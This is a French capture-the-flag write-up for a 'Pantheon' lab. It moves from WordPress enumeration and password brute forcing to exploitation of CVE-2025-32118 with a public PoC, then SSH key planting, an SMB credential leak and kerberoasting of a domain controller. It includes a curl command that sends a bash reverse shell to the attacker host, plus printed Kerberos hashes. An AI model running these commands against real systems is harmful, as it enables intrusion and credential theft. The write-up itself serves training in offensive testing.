

WriteUP
Quand on lance ce lab, on ce retrouve avec une seul machine exposer sur l’ip 192.168.56.10. Ainsi on commence notre énumération sur cette machine avec un nmap pour essayer de trouver un moyen d’avoir accès à la machine
Scan Nmap
nmap -sn 192.168.56.1/24
Starting Nmap 7.93 ( https://nmap.org ) at 2025-06-22 14:02 CEST
Nmap scan report for 192.168.56.10
Host is up (0.00018s latency).
nmapfull pantheon.god
Starting Nmap 7.93 ( https://nmap.org ) at 2025-05-27 02:10 CEST
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 02:10 (0:00:06 remaining)
Nmap scan report for pantheon.god (192.168.56.10)
Host is up (0.0011s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 5ac5588f4e5f39879805d7eaf60cdc6e (RSA)
| 256 8ccbd941886aea2ec2d28f9f73f24d71 (ECDSA)
|_ 256 9ba0c18717b81ab3c8483a025378d7ca (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 6.8.1
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Pantheon
MAC Address: 08:00:27:AB:3D:50 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.27 seconds
On trouve un port 22 pour ssh et un port 80 pour http.
Quand on tente d’accéder au port 80, on est rediriger sur l’adresse pantheaon.lab
Avec wapalyzer, on trouve que le site est sur wordpress, hors souvent avec wordpress, on trouve qu’il y a pléthore de plugins vulnérable, ce qui doit donc nous motiver à trouver un plugins qui pourrait être vulnérable.
-
Pour cela on peut utiliser l’outils
wp-scanwpscan --url "http://$TARGET/" --plugins-detection aggressive _______________________________________________________________ __ _______ _____ \ \ / / __ \ / ____| \ \ /\ / /| |__) | (___ ___ __ _ _ __ ® \ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \ \ /\ / | | ____) | (__| (_| | | | | \/ \/ |_| |_____/ \___|\__,_|_| |_| WordPress Security Scanner by the WPScan Team Version 3.8.28 Sponsored by Automattic - https://automattic.com/ @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart _______________________________________________________________ [+] URL: http://pantheon.god/ [192.168.56.10] [+] Started: Tue May 27 02:01:37 2025 Interesting Finding(s): [+] Headers | Interesting Entry: Server: Apache/2.4.29 (Ubuntu) | Found By: Headers (Passive Detection) | Confidence: 100% [+] robots.txt found: http://pantheon.god/robots.txt | Interesting Entries: | - /wp-admin/ | - /wp-admin/admin-ajax.php | Found By: Robots Txt (Aggressive Detection) | Confidence: 100% [+] XML-RPC seems to be enabled: http://pantheon.god/xmlrpc.php | Found By: Direct Access (Aggressive Detection) | Confidence: 100% | References: | - http://codex.wordpress.org/XML-RPC_Pingback_API | - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/ | - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/ | - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/ | - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/ [+] WordPress readme found: http://pantheon.god/readme.html | Found By: Direct Access (Aggressive Detection) | Confidence: 100% [+] Upload directory has listing enabled: http://pantheon.god/wp-content/uploads/ | Found By: Direct Access (Aggressive Detection) | Confidence: 100% [+] The external WP-Cron seems to be enabled: http://pantheon.god/wp-cron.php | Found By: Direct Access (Aggressive Detection) | Confidence: 60% | References: | - https://www.iplocation.net/defend-wordpress-from-ddos | - https://github.com/wpscanteam/wpscan/issues/1299 [+] WordPress version 6.8.1 identified (Latest, released on 2025-04-30). | Found By: Rss Generator (Passive Detection) | - http://pantheon.god/feed/, <generator>https://wordpress.org/?v=6.8.1</generator> | - http://pantheon.god/comments/feed/, <generator>https://wordpress.org/?v=6.8.1</generator> [+] WordPress theme in use: twentytwentyfive | Location: http://pantheon.god/wp-content/themes/twentytwentyfive/ | Latest Version: 1.2 (up to date) | Last Updated: 2025-04-15T00:00:00.000Z | Readme: http://pantheon.god/wp-content/themes/twentytwentyfive/readme.txt | [!] Directory listing is enabled | Style URL: http://pantheon.god/wp-content/themes/twentytwentyfive/style.css?ver=1.2 | Style Name: Twenty Twenty-Five | Style URI: https://wordpress.org/themes/twentytwentyfive/ | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor... | Author: the WordPress team | Author URI: https://wordpress.org | | Found By: Css Style In Homepage (Passive Detection) | Confirmed By: Css Style In 404 Page (Passive Detection) | | Version: 1.2 (80% confidence) | Found By: Style (Passive Detection) | - http://pantheon.god/wp-content/themes/twentytwentyfive/style.css?ver=1.2, Match: 'Version: 1.2' [+] Enumerating All Plugins (via Aggressive Methods) Checking Known Locations - Time: 00:04:30 <======================================= Checking Known Locations - Time: 00:22:44 <========================> (110793 / 110793) 100.00% Time: 00:22:44[+] Checking Plugin Versions (via Passive and Aggressive Methods) > (75092 / 110793) 67.77% ETA: 00:06:54 [i] Plugin(s) Identified: [+] akismet | Location: http://pantheon.god/wp-content/plugins/akismet/ | Latest Version: 5.4 | Last Updated: 2025-05-07T16:30:00.000Z | | Found By: Known Locations (Aggressive Detection) | - http://pantheon.god/wp-content/plugins/akismet/, status: 403 | | The version could not be determined. [+] cmp-coming-soon-maintenance | Location: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/ | Last Updated: 2025-04-30T08:07:00.000Z | Readme: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt | [!] The version is out of date, the latest version is 4.1.15 | [!] Directory listing is enabled | | Found By: Known Locations (Aggressive Detection) | - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/, status: 200 | | Version: 4.1.13 (80% confidence) | Found By: Readme - Stable Tag (Aggressive Detection) | - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt [+] feed | Location: http://pantheon.god/wp-content/plugins/feed/ | | Found By: Known Locations (Aggressive Detection) | - http://pantheon.god/wp-content/plugins/feed/, status: 200 | | The version could not be determined. [+] Enumerating Config Backups (via Passive and Aggressive Methods) Checking Config Backups - Time: 00:00:01 <===============================> (137 / 137) 100.00% Time: 00:00:01 [i] No Config Backups Found. [!] No WPScan API Token given, as a result vulnerability data has not been output. [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register [+] Finished: Tue May 27 02:24:34 2025 [+] Requests Done: 110950 [+] Cached Requests: 44 [+] Data Sent: 29.306 MB [+] Data Received: 33.036 MB [+] Memory used: 594.039 MB [+] Elapsed time: 00:22:56 [May 27, 2025 - 02:29:55 (CE
Ainsi on trouve le plugin cmp-coming-soon-maintenance qui est sous ça version 4.1.13. On voit rapidement des POC sur internet pour cette vulnérabilité comme celui de Nxploited https://github.com/Nxploited/CVE-2025-32118.
Cependant on fais face à un problème, il faut des credentials pour lancer cette exploit, hors nous n’en avons pas.
-
Mais après énumération avec
gobuster, on trouve une note au chemins/wp-content/notes.txtindiquant que tout les dieux devais changer leurs mots de passe et mettre unymais seul hermes ne l’avais pas fais.[Jun 22, 2025 - 21:22:15 (CEST)] exegol-pantheon_wu gobuster # gobuster dir -w `fzf-wordlists` -u http://olympe.god/wp-content -x txt,html,php =============================================================== Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://olympe.god/wp-content [+] Method: GET [+] Threads: 10 [+] Wordlist: /opt/lists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt [+] Negative Status codes: 404 [+] User Agent: gobuster/3.6 [+] Extensions: txt,html,php [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== /.php (Status: 403) [Size: 275] /index.php (Status: 200) [Size: 0] /.html (Status: 403) [Size: 275] /rss (Status: 301) [Size: 0] [--> http://olympe.god/wp-content/feed/] /feed (Status: 301) [Size: 0] [--> http://olympe.god/wp-content/feed/] /themes (Status: 301) [Size: 320] [--> http://olympe.god/wp-content/themes/] /uploads (Status: 301) [Size: 321] [--> http://olympe.god/wp-content/uploads/] /atom (Status: 301) [Size: 0] [--> http://olympe.god/wp-content/feed/atom/] /b (Status: 301) [Size: 0] [--> http://olympe.god/] /a (Status: 301) [Size: 0] [--> http://olympe.god/athena-2/] /de (Status: 301) [Size: 0] [--> http://olympe.god/demeter-2/] /p (Status: 301) [Size: 0] [--> http://olympe.god/poseidon-2/] /d (Status: 301) [Size: 0] [--> http://olympe.god/demeter-2/] /art (Status: 301) [Size: 0] [--> http://olympe.god/artemis-2/] /h (Status: 301) [Size: 0] [--> http://olympe.god/hello-world/] /l (Status: 301) [Size: 0] [--> http://olympe.god/les-12-dieux/] /plugins (Status: 301) [Size: 321] [--> http://olympe.god/wp-content/plugins/] /rss2 (Status: 301) [Size: 0] [--> http://olympe.god/wp-content/feed/] /z (Status: 301) [Size: 0] [--> http://olympe.god/zeus-2/] /A (Status: 301) [Size: 0] [--> http://olympe.god/athena-2/] /ap (Status: 301) [Size: 0] [--> http://olympe.god/aphrodite-2/] /P (Status: 301) [Size: 0] [--> http://olympe.god/poseidon-2/] /wp-register.php (Status: 301) [Size: 0] [--> http://olympe.god/wp-login.php?action=register] /upgrade (Status: 301) [Size: 321] [--> http://olympe.god/wp-content/upgrade/] /notes.txt (Status: 200) [Size: 391] /B (Status: 301) [Size: 0] [--> http://olympe.god/] /ar (Status: 301) [Size: 0] [--> http://olympe.god/ares-2/] Progress: 4569 / 882240 (0.52%)
On lance alors un bruteforce sur la page de login en tant que hermes et avec la wordlist rockyou.txt et on trouve le mots de passe mondieu
A partir de là, on peut utiliser la CVE pour obtenir un accès www-data sur la machine via un revershell obtenue à travers le webshell offert par le POC de la CVE.
#POC CVE wordpress
python3 CVE-2025-32118.py -u http://olympe.god/wordpress -un hermes -p mondieu
# Ecoute sur un portattaquant
pwncat-cs :9001
# Envoie du payload
curl "http://olympe.god/wp-content/plugins/cmp-premium-themes/nxploitedshell/nxploitedshell.php" --get --data-urlencode "cmd=bash -c 'sh -i >& /dev/tcp/192.168.56.1/9001 0>&1'"
Une fois sur la machine. On trouve avec getfacl que l’on à un droit d’écriture sur l’authorized_keys de l’utilisateur hermès.
Ce dernier nous à laisser un message pour nous indiquer qu’il aimerai que l’on fasse tomber zeus.
Ainsi on peut utiliser ce fichier pour y mettre notre clé publique et obtenir un accès ssh à la machine en tant que hermès.
Une fois connecter en tant que hermes, on identifie un group étrange smbscores
hermes@OlympeWordpress:/$ id
uid=1011(hermes) gid=1011(hermes) groupes=1011(hermes),1013(smbscores)
hermes@OlympeWordpress:/$ groups
hermes smbscores
hermes@OlympeWordpress:/$
Ainsi on peut voit qu’il n’y a qu’un seul autre utilisateur nomé dans ce groupe et que ce dernier permet de lire 2 fichier, scores.txt et score_update.sh
find / -group smbscores 2>/dev/null
/opt/scores/score_update.sh
/srv/pantheon.god
/srv/pantheon.god/scores
/srv/pantheon.god/scores/scores.txt
hermes@OlympeWordpress:/$
Bien qu’il n’y est rien dans le fichier scores.txt il y à tout de même des credentials danas le fichier score_update.sh. Cette fontionnalité permet d’update les scores des jeux sensé bientôt commencer et les envoyer vers un server sur l’ip 192.168.56.11.
hermes@OlympeWordpress:/$ cat /srv/pantheon.god/scores/scores.txt
hermes@OlympeWordpress:/$ cat /opt/scores/score_update.sh
smbclient //192.168.56.11/scores -U 'smbscores%Sc0r3sS3rv1c3!2024' -c 'put /srv/pantheon.god/scores/scores.txt scores.txt'
hermes@OlympeWordpress:/$
n’ayant pas accès à cette ip, on place un agent ligolo-ng sur la machine avant d’utiliser nxc.
…
-
nmap
nmapfull 192.168.56.11 Starting Nmap 7.93 ( https://nmap.org ) at 2025-06-22 23:43 CEST Nmap scan report for 192.168.56.11 Host is up (0.0015s latency). PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH for_Windows_9.5 (protocol 2.0) 53/tcp open domain Simple DNS Plus 88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-06-22 21:30:05Z) 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: pantheon.god0., Site: Default-First-Site-Name) | ssl-cert: Subject: commonName=pantheon-dc01.pantheon.god | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:pantheon-dc01.pantheon.god | Not valid before: 2025-06-21T19:24:38 |_Not valid after: 2026-06-21T19:24:38 |_ssl-date: TLS randomness does not represent time 445/tcp open microsoft-ds? 464/tcp open kpasswd5? 593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: pantheon.god0., Site: Default-First-Site-Name) |_ssl-date: TLS randomness does not represent time | ssl-cert: Subject: commonName=pantheon-dc01.pantheon.god | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:pantheon-dc01.pantheon.god | Not valid before: 2025-06-21T19:24:38 |_Not valid after: 2026-06-21T19:24:38 3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: pantheon.god0., Site: Default-First-Site-Name) | ssl-cert: Subject: commonName=pantheon-dc01.pantheon.god | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:pantheon-dc01.pantheon.god | Not valid before: 2025-06-21T19:24:38 |_Not valid after: 2026-06-21T19:24:38 |_ssl-date: TLS randomness does not represent time 3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: pantheon.god0., Site: Default-First-Site-Name) | ssl-cert: Subject: commonName=pantheon-dc01.pantheon.god | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:pantheon-dc01.pantheon.god | Not valid before: 2025-06-21T19:24:38 |_Not valid after: 2026-06-21T19:24:38 |_ssl-date: TLS randomness does not represent time 3389/tcp open ssl/ms-wbt-server? | rdp-ntlm-info: | Target_Name: PANTHEON | NetBIOS_Domain_Name: PANTHEON | NetBIOS_Computer_Name: PANTHEON-DC01 | DNS_Domain_Name: pantheon.god | DNS_Computer_Name: pantheon-dc01.pantheon.god | DNS_Tree_Name: pantheon.god | Product_Version: 10.0.26100 |_ System_Time: 2025-06-22T21:31:56+00:00 |_ssl-date: TLS randomness does not represent time | ssl-cert: Subject: commonName=pantheon-dc01.pantheon.god | Not valid before: 2025-06-20T19:19:22 |_Not valid after: 2025-12-20T19:19:22 5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |_http-title: Not Found |_http-server-header: Microsoft-HTTPAPI/2.0 9389/tcp open mc-nmf .NET Message Framing 47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |_http-title: Not Found |_http-server-header: Microsoft-HTTPAPI/2.0 49664/tcp open msrpc Microsoft Windows RPC 49665/tcp open msrpc Microsoft Windows RPC 49666/tcp open msrpc Microsoft Windows RPC 49667/tcp open msrpc Microsoft Windows RPC 49668/tcp open msrpc Microsoft Windows RPC 49670/tcp open msrpc Microsoft Windows RPC 49672/tcp open msrpc Microsoft Windows RPC 49682/tcp open msrpc Microsoft Windows RPC 49683/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 49687/tcp open msrpc Microsoft Windows RPC 49698/tcp open msrpc Microsoft Windows RPC 51019/tcp open msrpc Microsoft Windows RPC 56277/tcp open msrpc Microsoft Windows RPC 56321/tcp open msrpc Microsoft Windows RPC MAC Address: 08:00:27:BA:71:77 (Oracle VirtualBox virtual NIC) Service Info: Host: PANTHEON-DC01; OS: Windows; CPE: cpe:/o:microsoft:windows Host script results: |_clock-skew: mean: -13m20s, deviation: 0s, median: -13m20s | smb2-security-mode: | 311: |_ Message signing enabled and required |_nbstat: NetBIOS name: PANTHEON-DC01, NetBIOS user: <unknown>, NetBIOS MAC: 080027ba7177 (Oracle VirtualBox virtual NIC) | smb2-time: | date: 2025-06-22T21:31:56 |_ start_date: N/A Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 102.80 seconds
On vois avec netexec que l’on à affaire à un domain contrôleur.
Ainsi on oublie pas rajouter les information du domaine dans /etc/hosts et /etc/krb5.conf. Et pour ce faire on peut utiliser netexec
[smbscores@pantheon.god][Jun 22, 2025 - 23:48:03 (CEST)] exegol-pantheon_wu writeup # nxc smb "$IP" -u "$USER" -p "$PASSWORD" --generate-hosts /etc/hosts
SMB 192.168.56.11 445 PANTHEON-DC01 [*] Windows 11 / Server 2025 Build 26100 x64 (name:PANTHEON-DC01) (domain:pantheon.god) (signing:True) (SMBv1:False)
SMB 192.168.56.11 445 PANTHEON-DC01 [+] pantheon.god\smbscores:Sc0r3sS3rv1c3!2024
[smbscores@pantheon.god][Jun 22, 2025 - 23:48:07 (CEST)] exegol-pantheon_wu writeup # nxc smb "$IP" -u "$USER" -p "$PASSWORD" --generate-krb5 /etc/krb5.conf
SMB 192.168.56.11 445 PANTHEON-DC01 [*] Windows 11 / Server 2025 Build 26100 x64 (name:PANTHEON-DC01) (domain:pantheon.god) (signing:True) (SMBv1:False)
SMB 192.168.56.11 445 PANTHEON-DC01 [+] pantheon.god\smbscores:Sc0r3sS3rv1c3!2024
On peut tenter des attaque classique de l’active directory tel que l’asreprosting ou kerberoasting qui justement nécessite des identifiant valide pour être exécuter.
Cela nous permet de récupérer 3 utilisateur kerberoastable, notre utilisateur courant smbscores dont on connais déjà le mots de pass, le service svc_thunderB$, et le service hercule qui semble être au vue du nom, un compte utilisateur fessant office de compte de service, donc potentiellement un utilisateur avec un mots de pass faible et bruteforçable.
D’ailleurs on peut voir que svc_thunderB$ est un gmsa que seul les utilisateur membre du groupe OLYMPE-SERVICES-MANAGERS peuvent obtenir le mots de passe.
nxc ldap "$IP" -u "$USER" -p "$PASSWORD" --gmsa
LDAP 192.168.56.11 389 PANTHEON-DC01 [*] Windows 11 / Server 2025 Build 26100 (name:PANTHEON-DC01) (domain:pantheon.god) (signing:Enforced) (channel binding:When Supported)
LDAP 192.168.56.11 389 PANTHEON-DC01 [+] pantheon.god\smbscores:Sc0r3sS3rv1c3!2024
LDAP 192.168.56.11 389 PANTHEON-DC01 [*] Getting GMSA Passwords
LDAP 192.168.56.11 389 PANTHEON-DC01 Account: svc_thunderB$ NTLM: <no read permissions> PrincipalsAllowedToReadPassword: OLYMPE-SERVICES-MANAGERS
-
Pour effectuer une attaque
kerberoastingon doit ce synchronise avec le DC puis on peux utilisernetexecpour effectuer l’attaque.[smbscores@pantheon.god][Jun 22, 2025 - 23:40:10 (CEST)] exegol-pantheon_wu writeup # nxc ldap "$IP" -u "$USER" -p "$PASSWORD" --kerberoast Kerberoastables.txt --port 636 LDAPS 192.168.56.11 636 PANTHEON-DC01 [*] Windows 11 / Server 2025 Build 26100 (name:PANTHEON-DC01) (domain:pantheon.god) LDAPS 192.168.56.11 636 PANTHEON-DC01 [+] pantheon.god\smbscores:Sc0r3sS3rv1c3!2024 LDAPS 192.168.56.11 636 PANTHEON-DC01 Bypassing disabled account krbtgt LDAPS 192.168.56.11 636 PANTHEON-DC01 [*] Total of records returned 16 LDAPS 192.168.56.11 636 PANTHEON-DC01 sAMAccountName: svc_thunderB$ memberOf: pwdLastSet: 2025-06-21 21:33:28.483382 lastLogon:<never> LDAPS 192.168.56.11 636 PANTHEON-DC01 $krb5tgs$18$svc_thunderB$$PANTHEON.GOD$*pantheon.god/svc_thunderB$*$b892c7289757c281b495c1d7$5cd2a3bbb76b2eab9d2db9cbc0997bb02f12f309e133bb9661fa357eac918ef779a6371854a144d48c9c3edb72aae30e35e910141732061000b9d8ef8d453c6efd4f3ae169226f988794530c4d65e9dc821a69c2d8a0b2e05524a37d02cdc89f089f766009d39f6e1a029cc71d70427aaf98e21bdb445a41181e8159879c70671f31490ef4c01b8ae2d4631f156de52947c43474465b5bb2e2e1657991ba5570b0f75f25af78d1c6ca7a48d6427873669fad6df1665f2bbaffbf4fded6c7c3cd6b1d900d5768fb0f6ff1f7f78c5137fc1aa92ce963902cf9a44aeab17537715cea58f3903c9b663b62fa121dcbbf2e44d93a6b1b01d061ad575c3372a4e7951b0182f8112c8342073bac6de95ece585d18b909b9dff856766d35ce7748d8242d624da53a4a6a8c4223492949ea439d3e049c234c4e4612575b6c47fa530742fc563cfa9b39e770916a47e3d5e031c26bf46284f55f2bbaa30a3b29b3462d91cba0f0e8717ce9a1a55d09ace6c44ab5f37b50cf88d700776dcbaef2d15cb44075d8fc5260b25538a63b9f13b118592f81c6c0b6afdd03b1b0e7f9b0e1a9f3a72d813a14ae9088e65dedad8ebda78125dba743cca9494c5e886144f399e66a786428b3087b3a7902f9475f3e9851ce97ddad708fa8c528286051cbe2f239700329252c620247a3873e2d89dd2f0f26319f011be542161a373088aee9a404fc9d0e0523f59364956210e84ecc4b813fb7a252a1a88240c5e0df3b8d2eff05c06d159556b7190f1ea09169872482a0d1624b5db340c522c76ae59e379833fd939bd0375ffbf5e1e83daed3dae32bffc8a563244dc7157d5a1897a74c5448070214c718f7fc746c97e9a83fc507afcb7e8e92af2441e9dc63ee1541734284e88b7e55821b6bd128229272ab35eee90d6e05480aae455a3812060a223119f91656d163154d3db35e6f64fe2625409b56b580effc9f816e2baeea05a5c2da6e5566dd7f63045c38fe954b8c4d812046d79d7ee1611091fa2174f72a25e24786877ed423e39ea7b9fbb3e1ff49d5f7650734b9c0fce605c2734e55ba5aaea0928f7ff497d9f1c36d6c5387112adaf8a5213604d01d92071b5fe72b7945fa85ab41c054af19e1f116c55349009b35877447a0b921489b66f9e01283ca5f4cb576f1e7a38cde0707d6c5384228c4edec36904e393fcd0b3ffa969818f1063e0bb800a33d3d96380a28e254b30bd5f0d465fd65548164e20d6ec6a22359dc79a1d80fb3a8993835376ea690cdba410b94cc198c2966ac8a6212eb93256ad7148ec22377452a0f9ea02fec233c5a7977fe4a01be5bcd4e0043934ed822e0d5c19c5ac3806e85c7659b35d957990458c9a075f16f4158b605bf1319a5f2f3d7289dcbe224659fa49e04a7c6d30d81a03056134946f8dcac47da2a330ca2361db6892c8297bb47be2b61974f23e5caadbad16a128ab60e28e45d715f3c4740da3e3cad59f62c2d81ce13b4050c926949c81db1006188bb35378bb70e90d74117099fe26617 LDAPS 192.168.56.11 636 PANTHEON-DC01 sAMAccountName: hercule memberOf: CN=OLYMPE-IMORTAL-HEROS,OU=OLYMPIENS,DC=pantheon,DC=god pwdLastSet: 2025-06-21 21:37:10.735902 lastLogon:<never> LDAPS 192.168.56.11 636 PANTHEON-DC01 $krb5tgs$23$*hercule$PANTHEON.GOD$pantheon.god/hercule*$aa9ccd3d56303ff1475981267ff6a9b8$2f7bcb43d4d4587dbc1c625599553784d26a2347a5bd7a9f056b7e7d2b9f6d31bb93173e824ebcffed3e6b01103eb5a8e9827bd8455a373a50faa5fe0fd21725a0f2ae080a8e4c3fbaccfb41fc642f74e8238ff9b646718bcd59411926f2a6442a2d539440b0599f4fd3c7fb797332c7e09de70ada10af736cb837abc595a65cbe561b7fcc8c41aa2b2329af3eac8e5085e260d4c06fe622497a01383580801fb7152b3b90a04854b88dfe88a6ac472402c192b71c6b4b5bb5586ff655e4b54e713bb08ecb77dd50edd93f3a919df5ad700c54f20cb2647ef9f2fb997dd6627fcbd8c62b37e0da4cd4cb06d676ea48ad6628e3f52ef401e793b7b2049a2c8b068da21d377c8b41fa42aa22f37281f19c3aa4a45b26242669d32425f05b565e9f2a581ee45ca275101cb87fedb909a1c240480cfb8f0cb2d59ae4615ecb7ec30d6ca307a56d48ef022fa16f3b2e4abf4bf89060df5bc940ad1dff7f5d5419cd30c910360f830a493f6150f4651cd1b5a986f09b479c540ed1e0bcd86293e02e456181d2f59ec19a01f0396f3c56c72d75ee5a3d0394509bebc34f78f17c2f59a265eed0942bb08327b5d0074d7631e3bd13b5371e40b23ccf8f59ceb7a6ea2bd2f88673362442e62155452b19d3b88ee6c55a3970e73dd47c44f6b025bf4db0a226302d85f01403b2ea8ac0e5f04a94e0ab8a3de141342e3e62c8111ac6bacbb199970549916f814a1ddbad28c8e59deb989c7f22ddf207334a3e655ead0284a504c3ddfd5eca1491a1c10b0d1b60eaa1e2a4dddbec8ffa3262326091406e486682f3b46b0389ec7b42a7ee80c08552c83b9df8d7e72da16d8381bd65fcfe4a60e2a5214877573af59064d894b03236941ac851cb13ad54d2bbe6fd3220cf63f61cc14dfbbee922ded7613d373ca1f58912babadaaae4788fcdb5bf5c8109dd6695301bad72dec1364187ee2759b7743ed7340e960cdfe832dca8c12f055e970348704dfe6df3857c46132b126b44dd7b2c0e21452fdf6f88dba351ab4cc27f08eace50ed6e1eb564b61fddefa2f014ed6c76769078846726e3f596fc60269dc44f0038c575fac8ff5877583f1bb2463e3f4978c19396a4ca54c54896d0ceaf841d9354dbb3ae117816c51804d95fa2f4ede4c60d3a372b90cace99b26fbe92624da58676e68b4e15e4ed5e73178b73bb726f44609a60afbd6c461c6489d7119b9fc8babebb85285d0c75c05250cfd218fcafe07a2754e076b67033d3f4f32ebead3e97332569b48a2e0ccbaee31e5913d1886c2fc2e8982386feabdcaeb0f6b51273830ecd6cb85fbe0bcd237dbddebf029335fc24d90ccaa2faf86c7eb2981e2588039f3b5534ba1c48505fcabbd5678c1f8664f517f39c0de8ac3ed00f696ccecf01b36914a0c0bea2f804c540b0c8e460b16c7c7c9e16ccc365d788b2f59daff3abe406a9deea327424146091cda71d83327b5192113f5f644576b126121a5424a1a6da0e62de340f23f5c1e5631c876b578b6b02da43e3ad408e7124 LDAPS 192.168.56.11 636 PANTHEON-DC01 sAMAccountName: smbscores memberOf: pwdLastSet: 2025-06-21 21:37:03.510375 lastLogon:<never> LDAPS 192.168.56.11 636 PANTHEON-DC01 $krb5tgs$23$*smbscores$PANTHEON.GOD$pantheon.god/smbscores*$42bf39b969a8a888cc5b4b1fd4eb5cbd$e1850ad13e806adb8eb0cd6c6126bc2989c933eec4196d03812955970261ae096ec04b57e624b63d25eb69447345389b3208834f6421fd9009c34faa7f44e1f350083214e26dba82ff6b6773f7e648b9bac14fec93e26b561f2b4e961bf2d2e767b36da98e236a54ff7887c729e6cf26d5f0bc02a66ea6cd84c38dc2be93b0f2628186de5cca2b576f3c14d680032409d7c900b17262419ef2def0f6830487f19e4a5ae8cf6c3a4e2aaf896be48fa0e861ee59722a4599a34cd6d90071c5e47eb4349b6b16b19adb1990cafaee0df4b7363344479eba87af5e375771ace74fb1c5a979acbf5d107a55399bc4db96099a7d16482b1c550eaf704e7b9aaa9b319289da58e93e09c4a7a4582e648b4ddd02c59f98f53c5d2a672ef9c56abbbb2bac86902c9dd4bf8b5a3fa6c4180320c5a7fc5c0f45ee254964a3cb3d01d236784470bed8135c3c563809ca8510707790284b04b3ec6022d60a1c6f1910b4cb5da5ccdd109bd29fb0cc2f8a64db642d9cef0fed1915f43d80d2460ff20da29a1a2b9d355b713c3d3fd3beaaffeef0d3c9c23e8583e0aa4e04c31a769a2810f2edf98335f1b3cdcba422db5af41f8df99e56b1bd57dd7ea9b72c39edd7443ff8dda448ac6a119e26ec25fa50a3f1cf68206abd6dc447327faf993f78b922e69492d519ffda58655fcdbda660ced01cd5e49f83c541b251bc481f373164b355ca933a023639062daae4d9db6b14fb85c32afff3240d8358ece0ab8122737e5cb7b1bff3cf2ecb20684f78317078a5cfb602388908c2f0476e7f90114cc38d06addc9d897a43171c29a1b9bd8ddbbe2b8a8c12e7162aee168c402ec9cac65891ba8d2e3ff06036bae1eb532fba13fd0766b038c77bb1a3d1c130ade476142cb7a74acf2d73d2a9a28c6541aed0a3cb79df3f4c6342fb784cbc502c969b5f6c571a0c2388895977844cc46fc5c1b724b8ed596abe6711e47d6d37e48196b6dc42bf1af4e8c18c5c66a6cf41adf6e3f7c0ec2e5de7a8c6e396575e65459f66ef2e7437acd2de10a892c2611ebfc111d53c2a973a7930b6f12811532ecc4ccacd32c3bd5bad72c4ca75b947984bdd808c9a1ccfec1ddcea9